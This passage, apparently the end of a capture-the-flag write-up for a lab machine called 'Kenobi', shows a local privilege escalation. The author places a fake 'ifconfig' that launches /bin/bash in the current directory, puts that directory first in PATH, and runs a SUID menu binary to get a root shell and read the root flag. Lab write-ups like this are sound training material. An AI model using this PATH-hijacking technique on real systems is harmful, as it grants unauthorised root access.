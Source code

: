 kenobi@kenobi:~/share$ echo /bin/bash > ifconfig
kenobi@kenobi:~/share$ chmod 777 ifconfig
kenobi@kenobi:~/share$ export PATH=.:$PATH</code></pre>
<pre><code>kenobi@kenobi:~/share$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :3
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.</code></pre>
<br><br>
Finally running the binary menu with the 3rd option gives us a bash with root.
<pre><code>root@kenobi:~/share# whoami
root</code></pre>
<pre><code>root@kenobi:~/share# cat /root/root.txt
Why'dYouOnlyCallMeWhenYou'reHigh</code></pre>
